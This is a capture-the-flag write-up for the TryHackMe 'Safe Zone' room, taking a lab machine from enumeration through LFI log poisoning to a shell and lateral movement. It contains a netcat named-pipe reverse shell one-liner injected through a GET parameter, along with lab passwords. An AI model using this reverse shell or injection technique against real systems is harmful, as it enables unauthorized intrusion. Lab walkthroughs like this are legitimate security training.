```yaml
---
title: Safe Zone
layout: post
author: Bit Criminals Team
date: 2021-05-10 17:02:00 +0530
type: Pen Testing
difficulty: Medium
prompt: https://tryhackme.com/room/safezone
---
```



This was an interesting and thought-provoking room!

So,let's start!

# Enumeration
 Using nmap I founded 2 open ports : 22 (for ssh) and 80 (for http service)

 Command used: 
> nmap -sS -Pn -T4 -vvv <ip>

![nmap](https://user-images.githubusercontent.com/78094309/117653814-834ba580-b1b2-11eb-82a8-2824c38ebb7b.png)


Now, looking after port 80, I used gobuster and thus got the following directories:
![gobuster](https://user-images.githubusercontent.com/78094309/117653895-a24a3780-b1b2-11eb-8017-20bf507ef83c.png)

On checking index.php, Got a login form:

![loging_page](https://user-images.githubusercontent.com/78094309/117654823-ea1d8e80-b1b3-11eb-9eb7-978b8ba0a6e1.png)


On checking further directories and enumeration i got the hint for the password:
![~files](https://user-images.githubusercontent.com/78094309/117655056-32d54780-b1b4-11eb-99da-771cb0f581c2.png)

So, I made a script and thus found out the password:

![script](https://user-images.githubusercontent.com/78094309/117655127-4bddf880-b1b4-11eb-97c2-072ad49f3ed2.png)

> password: admin44admin

Now,checking the source-code ,a hint was given : use *page* as GET parameter

![webpage-get](https://user-images.githubusercontent.com/78094309/117655350-919ac100-b1b4-11eb-93a0-c857be2f174b.png)


So, I tried opening a shell using the following command (passed as get parameter):

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f

Using any online URL encoder tool,I encoded this string and passed as GET parameter and thus was able to obtain a shell.
![nc_alternative](https://user-images.githubusercontent.com/78094309/117655622-f0f8d100-b1b4-11eb-99e7-b5a0e492f2b4.png)

Used burp for passing GET request:
![burp](https://user-images.githubusercontent.com/78094309/117655661-ff46ed00-b1b4-11eb-92dc-9f568f0d7595.png)

for reference, you can read the concept here: https://www.hackingarticles.in/apache-log-poisoning-through-lfi/

![shell](https://user-images.githubusercontent.com/78094309/117655795-28677d80-b1b5-11eb-9333-fbe54dcb96f9.png)



After getting the shell lets convert it into a stable tty shell by using following commands:

```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
![](safezone1.png)

I searched for the user flag but there were only previous hints that we got. But then we got the password hash for the user files and after cracking it using john we came to know that its password is `magic`
![](safezone2.png)

So now we can login as files through ssh!
After finding a bit i used following command to check if there is possibility for port forwading and YES there were two ports running locally...
```py
ss -tulwn
```
![](safezone3.png)

I tried 3336 port but there was nothing but port 8000 gave us positive response!
![](safezone4.png)

![](safezone5.png)

So we ran gobuster on it and found a index.html directory which was a login page.
![](safezone6.png)

![](safezone7.png)

And its source contained a login.js directory which gave us the creadentials.
So we succesfully loged in....

![](safezone8.png)
